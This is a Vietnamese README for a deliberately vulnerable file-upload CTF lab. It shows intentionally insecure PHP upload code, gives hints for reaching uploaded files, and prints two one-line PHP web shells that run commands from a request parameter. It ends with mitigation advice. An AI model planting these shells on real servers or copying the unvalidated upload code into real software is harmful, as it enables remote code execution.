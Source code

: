 
# 🛡️ ChronoSoft Internal Upload Portal (CTF Lab - File Upload)

**Môi trường thực hành mô phỏng lỗ hổng File Upload trong ứng dụng web.**  
- ChronoSoft Internal Upload Portal là một CTF Lab được thiết kế đặc biệt dành cho học viên, chuyên gia bảo mật, hoặc những ai đang theo đuổi con đường trở thành bug bounty hunter. Mục tiêu của môi trường này là giúp người học nắm bắt một cách trực quan và thực tiễn về các lỗ hổng thường gặp trong chức năng tải tệp tin của các ứng dụng web.
- Trong môi trường này, bạn sẽ được tiếp cận với các tình huống giả lập sát với thực tế – nơi mà một sơ suất nhỏ trong xử lý file upload có thể dẫn đến những rủi ro nghiêm trọng như: tải tệp độc hại, thực thi mã từ xa (RCE), vượt qua kiểm tra loại file (MIME bypass), hoặc leo thang đặc quyền thông qua web shell.
- Lab này không chỉ mang tính chất thử thách mà còn có tính hướng dẫn cao. Mỗi phần đều giúp bạn từng bước xây dựng tư duy phân tích, phát hiện và khai thác lỗ hổng, từ cơ bản đến nâng cao. Đây là một công cụ học tập lý tưởng trong các khóa đào tạo an ninh mạng hoặc trong quá trình tự học.
- Hãy sẵn sàng để thử sức, tư duy như một attacker, và nâng cao kỹ năng như một defender thực thụ!
---

## 📄 Mô tả hệ thống

Trang HTML chính cho phép người dùng tải lên tệp tin nội bộ (giả lập tài liệu nhân sự) qua form đơn giản:

```html
<form method="POST" enctype="multipart/form-data">
    <input type="file" name="file" required />
    <input type="submit" value="Upload Document" />
</form>
```

Mã PHP phía server thực hiện:

```php
$upload_dir = 'upload/';
$upload_file = $upload_dir . basename($_FILES['file']['name']);
move_uploaded_file($_FILES['file']['tmp_name'], $upload_file);
```

---

## ⚠️ Lỗ hổng bảo mật

Chức năng upload này có những điểm yếu nghiêm trọng:

- ❌ Không kiểm tra định dạng (extension) của file
- ❌ Không xác thực MIME type
- ❌ Không lọc tên file nguy hiểm (như `.php`, `.exe`)
- ❌ Không đổi tên file khi lưu (có thể bị ghi đè hoặc dự đoán)
- ❌ Thư mục lưu file có thể truy cập trực tiếp (`upload/`)

📌 Hậu quả: Kẻ tấn công có thể upload một **web shell** (ví dụ: `shell.php`) và truy cập qua trình duyệt để thực thi mã trên server.

---

## 🎯 Mục tiêu của học viên

1. Thử upload file `.php` chứa mã thực thi
2. Truy cập đường dẫn `/upload/[filename]` để kiểm tra thực thi
3. Nếu thành công, thử gửi các lệnh hệ thống (ví dụ: `id`, `ls`, v.v.)
4. Ghi lại kết quả và học cách phòng chống lỗi này

---

## 🚀 Hướng dẫn triển khai

```bash
docker-compose up --build
```

Sau khi chạy, truy cập trình duyệt tại:

🔗 http://localhost:8080

![image](https://github.com/user-attachments/assets/1390a27f-3eb8-4118-b023-f11417786021)

---

## 🧪 Gợi ý khai thác

| Hành động | Gợi ý |
|-----------|-------|
| Upload shell | Dùng file như `shell.php`, `cmd.php`, hoặc script đơn giản |
| Truy cập file | Truy cập `http://localhost:8080/upload/shell.php` |
| Gửi lệnh | Nếu file thực thi, thử truyền lệnh qua GET: `?cmd=id` |

---

## 📦 Một số mã shell cơ bản

```php
<?php system($_GET['cmd']); ?>
```

```php
<?php echo shell_exec($_REQUEST["cmd"]); ?>
```

---

## 📌 Hướng dẫn phòng chống (dành cho giảng viên)

- Chỉ cho phép một số định dạng tệp tin cụ thể (PDF, PNG, DOCX)
- Kiểm tra MIME type, magic bytes
- Đổi tên file khi lưu (sử dụng UUID, hash + timestamp)
- Không cho phép truy cập trực tiếp thư mục lưu trữ
- Cấm thực thi file trong thư mục upload (qua cấu hình `.htaccess` hoặc web server)

---

## 📬 Liên hệ (giả lập)

📧 `huyquach1703@gmail.com`

💬 Discord: [BanaN0Nam3](https://discord.gg/JuFPnJvJyy)

📱 Zalo: [[HUYQA]-TRAODOI-HOCTAP](https://zalo.me/g/eooety673)

📺 YouTube: [Cộng đồng hacker mũ trắng](https://www.youtube.com/@congdonghackermuxtrang)

---

## ⚠️ Cảnh báo

> Đây là môi trường chứa lỗ hổng có chủ đích.  
> Tuyệt đối không triển khai trên môi trường thật.  
> Chỉ sử dụng cho mục đích giáo dục và thử nghiệm trong phạm vi kiểm soát.`
